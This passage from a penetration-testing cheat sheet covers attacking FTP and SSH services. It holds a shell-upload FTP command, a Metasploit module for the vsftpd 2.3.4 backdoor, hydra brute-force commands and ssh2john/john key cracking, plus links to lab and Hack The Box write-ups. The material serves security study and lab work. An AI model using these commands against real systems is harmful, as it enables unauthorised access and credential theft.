         # Upload shell
        put shell
        # Get files for analysis
        get files
        
    
*   Examine configuration files: `ftpusers, ftp.conf, proftpd.conf`
    

### Tutorials

*   https://hackercool.com/2017/07/hacking-ftp-telnet-and-ssh-metasploitable-tutorials/

### Very Secure FTP Daemon (vsftpd)

#### Writeups

*   **v2.3.4** exploit
    
    *   [https://www.hackingtutorials.org/metasploit-tutorials/exploiting-vsftpd-metasploitable/](https://www.hackingtutorials.org/metasploit-tutorials/exploiting-vsftpd-metasploitable/)
    *   [HTB-Lame](https://0xdf.gitlab.io/2020/04/07/htb-lame.html), [HTB-LaCasaDePapel](https://0xdf.gitlab.io/2019/07/27/htb-lacasadepapel.html)
    
        msf> use exploit/unix/ftp/vsftpd_234_backdoor
        
    

### ProFTPd

#### Tutorials

*   https://hackercool.com/2020/03/hacking-proftpd-on-port-2121-and-hacking-the-services-on-port-1524/

Port 22 - SSH
-------------

*   Banner grab: `telnet $IP 22`
    
*   Try weak creds & Brute-force (exploitable in case of a very old version)
    
        hydra -L users.txt -P rockyou.txt $IP ssh
        hydra -l $USERNAME -P /usr/share/wordlists/wfuzz/others/common_pass.txt ssh://$IP
        
    
*   Crack passwords with john
    
        python ssh2john.py id_rsa > id_rsa.hash
        john --wordlist=rockyou.txt id_rsa.hash
        ssh -i /home/$username/.ssh/id_rsa $username@$IP
        
    
*   Examine configuration files: `ssh_config, sshd_config, authorized_keys, ssh_known_hosts, .shosts`
    